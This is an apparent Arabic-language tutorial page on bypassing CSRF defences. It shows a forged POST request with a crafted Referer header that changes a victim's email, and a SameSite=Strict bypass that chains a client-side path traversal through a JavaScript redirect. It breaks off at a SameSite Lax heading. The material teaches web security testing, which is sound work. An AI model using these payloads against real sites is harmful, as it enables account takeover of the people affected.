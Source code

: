 
## *🔹 التحايل على Referrer عشان ينجح الهجوم*

🔹 **لو السيرفر بيتحقق من الـ Referrer بطريقة ضعيفة، ممكن تستخدم حيلة عشان تخليه يقبله.** 😏

✅ **تعديل Referrer عشان يحتوي على رابط الضحية داخل رابط الهجوم نفسه!**

🔹 *مثال لطلب معدل نجح في تجاوز الفحص:*
```
http
POST /api/profile/update HTTP/2
Host: app.example.com
Content-Type: application/x-www-form-urlencoded
Referer: https://attacker.com/poc?app.example.com

new_email=attacker%40example.com
```

🔹 **السيرفر هيرد بـ HTTP/2 200 OK وكده الهجوم نجح!** ✅🔥

---
## *🔹 تجاوز حماية SameSite Strict Cookie*

🔹 *حماية SameSite=Strict بتمنع إرسال الكوكيز مع الطلبات القادمة من مواقع خارجية.*
🔹 *الحل؟* لازم تلاقي *ثغرة إعادة توجيه (Open Redirect) أو Path Traversal داخل نفس الموقع.*

✅ *مثال لو عندك رابط تغيير البريد الإلكتروني:*

```
https://example.com/change_email
```
🔹 *والموقع بيمنعك من تغييره بسبب سياسة SameSite* ❌

✅ *الحل: دور على صفحات داخل الموقع فيها Path Traversal أو Open Redirect.*

🔹 *مثال لكود جافاسكريبت ممكن يساعدك في كشف Path Traversal:*
```
javascript
redirectOnConfirmation = (blogPath) => {
    setTimeout(() => {
        const url = new URL(window.location);
        const postId = url.searchParams.get("postId");
        window.location = blogPath + '/' + postId;
    }, 3000);
}
```
🔹 **لو التطبيق عنده ضعف في التعامل مع المتغيرات في الرابط (postId)، ممكن تستخدمه في الهجوم.**

✅ *مثال لاستغلال Path Traversal في CSRF:*
```
https://example.com?postID=hossam/../../../../change_email
```

🔹 **بمجرد ما الموقع يعالج postID بدون فحص، هيتم توجيه الطلب إلى /change_email داخل نفس الموقع.**
✅ *كده الهجوم هيشتغل رغم الحماية!* 🔥🚀

---
## **تجاوز حماية SameSite Lax بالمصري**
